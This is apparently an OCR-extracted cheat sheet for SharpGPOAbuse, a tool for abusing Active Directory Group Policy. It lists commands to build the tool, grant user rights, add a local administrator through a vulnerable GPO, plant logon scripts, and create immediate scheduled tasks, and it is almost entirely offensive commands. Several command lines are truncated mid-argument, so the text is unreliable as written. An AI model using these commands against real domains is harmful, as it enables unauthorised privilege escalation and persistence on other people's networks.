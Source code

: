 ## SharpGPOAbuse https://github.com/FSecureLABS/SharpGPOAbuse

#### 1) Build and configure SharpGPOAbuse

    Install-Package CommandLineParser -Version 1.9.3.15

    $ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.

####  2) Adding User Rights

    .\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight"

#### 3) Adding a Local Admin

    .\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

#### 4) Configuring a User or Computer Logon script

    .\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents

#### 5) Configuring a Computer or User Immediate Task

### /!\ Intended to "run once" per GPO refresh, not run once per system

    .\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command

    .\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\
